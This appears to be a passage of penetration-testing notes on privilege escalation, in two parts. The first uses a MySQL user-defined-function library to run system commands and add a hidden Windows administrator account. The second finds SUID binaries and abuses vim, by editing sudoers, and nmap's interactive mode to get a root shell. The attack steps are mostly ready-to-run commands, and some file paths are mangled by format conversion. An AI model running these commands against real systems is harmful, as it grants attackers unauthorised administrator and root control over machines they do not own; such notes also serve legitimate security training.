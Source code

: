         -   **Another method**

            -   Instead of using raptor we can use A UDF library with functions to interact with the operating system. These functions allow you to interact with the execution environment in which MySQL runs.

                -   udf/mysql/linux/32/lib\_mysqludf\_sys.so (linux 32 bit)

                -   udf/mysql/linux/64/lib\_mysqludf\_sys.so (linux 64 bit)

                -   udf/mysql/windows/32/lib\_mysqludf\_sys.dll (windows 32 bit)

                -   udf/mysql/windows/64/lib\_mysqludf\_sys.dll (windows 64 bit)

            -   Git clone <https://github.com/mysqludf/lib_mysqludf_sys.git>

            -   gcc -DMYSQL\_DYNAMIC\_PLUGIN -fPIC -Wall -m64 -I/usr/include/mysql -I. -shared lib\_mysqludf\_sys.c -o lib\_mysqludf\_sys.so

            -   Ex of usage in windows

                -   USE mysql;

                -   CREATE TABLE npn(line blob);

                -   INSERT INTO npn values(load\_files(\'[C://temp //lib\_mysqludf\_sys.dll]\'));

                -   SELECT \* FROM mysql.npn INTO DUMPFILE \'[c://windows//system32//lib\_mysqludf\_sys\_32.dll][C://temp //lib\_mysqludf\_sys.dll]\';

                -   CREATE FUNCTION sys\_exec RETURNS integer SONAME \'lib\_mysqludf\_sys\_32.dll\';

                -   SELECT sys\_exec(\"net user npn npn12345678 /add\");

                -   SELECT sys\_exec(\"net localgroup Administrators npn /add\");

                -   

-   **SUID /GUID**

    -   suid permission //files that can be ran from any user as root

    -   find / -perm -4000  2\>/dev/null //4000 means suid bit is set

    -   find / -type f  -perm -u=s 2\>/dev/null // find suid

    -   find / -type f  -perm -g=s 2\>/dev/null // find guid

    -   It prints the executables which have SUID bit set  if we see something like {man/less/more/ls/nmap/vim.gtk/......} we can use them

    -   ex:  /usr/bin/vim.gtk /etc/sudoers      //edit sudo file to give us sudo access to everything

        -   add  user ALL=(ALL:ALL) ALL    then type sudo -u root /bin/bash       //and you are root 

    -   nmap running as a  root privilege

        -   nmap -- interactive

        -   !sh

    -   This website collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate privileges and many other functions

        -   <https://gtfobins.github.io/>
